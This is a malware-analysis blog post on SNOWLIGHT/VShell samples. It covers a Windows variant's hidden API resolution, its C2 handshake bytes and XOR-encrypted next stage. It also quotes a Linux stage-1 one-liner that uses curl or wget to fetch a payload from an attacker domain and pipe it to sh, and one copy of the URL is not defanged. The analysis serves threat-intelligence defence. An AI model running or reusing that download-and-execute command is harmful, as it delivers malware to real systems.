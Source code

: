 [![2](/assets/images/china/libaries.png)](/assets/images/china/libaries.png){: .full}

* However, it is hidings the true functions it's importing. This Windows variant appears to use a hash-based resolver API to import functions by reading the PEB (Process Environment Block) and from there the Ldr structure which holds lists of all modules it can dynamically import! 

* With the correct functions resolved, it uses `WinSock` send to the C2 server the banner "w64  " (two spaces), two port bytes "0x22 0x90" (8848), and eight 4-byte tags `"micr" "osof" "t-sy" "mant" "ec.a" "tr\x00\x00" "\x00\x00\x00\x00" "\x00\x00\x00\x00"`. 

* After sending this payload it allocates an area of memory, receive the 4th stage encryped with XOR `0x99`, decrypt, write to memory, and run! This appears to be the same SNOWLIGHT protocol, however the initial banner was for "w64" (Windows 64?) rather than "l64".

> For all variants of the `SNOWLIGHT` samples recovered, please see [here](https://github.com/ctrlaltint3l/intelligence/tree/main/VietnameseCampaign/Malware/VShell)!

> Keep an eye out for a follow-up blog where we will discuss this malware further!

## VShell - Linux one-liner

### Stage 1 

```bash
(curl -fsSL -m180 hxxp://microsoft-symantec[.]art:8848/slt||wget -T180 -q http://microsoft-symantec.art:8848/slt)|sh
```
* We can see this uses `curl` or `wget` to downloaded the payload `hxxp://microsoft-symantec[.]art:8848/slt` and execute it with `sh`.

### Stage 2 - Linux SNOWLIGHT downloader

Analysing the 2nd stage, we can see this also shows extremely strong similarities to the SNOWLIGHT samples noted by [Mandiant/Google](https://cloud.google.com/blog/topics/threat-intelligence/initial-access-brokers-exploit-f5-screenconnect) and [Eclecticiq](https://blog.eclecticiq.com/china-nexus-nation-state-actors-exploit-sap-netweaver-cve-2025-31324-to-target-critical-infrastructures).

* Upon execution of our sample, SNOWLIGHT will check for the existence of the file `/tmp/log_de.log`. If this files exists, it will stop execution. However, we couldn't find any evidence of SNOWLIGHT actually writing this file to disk. 
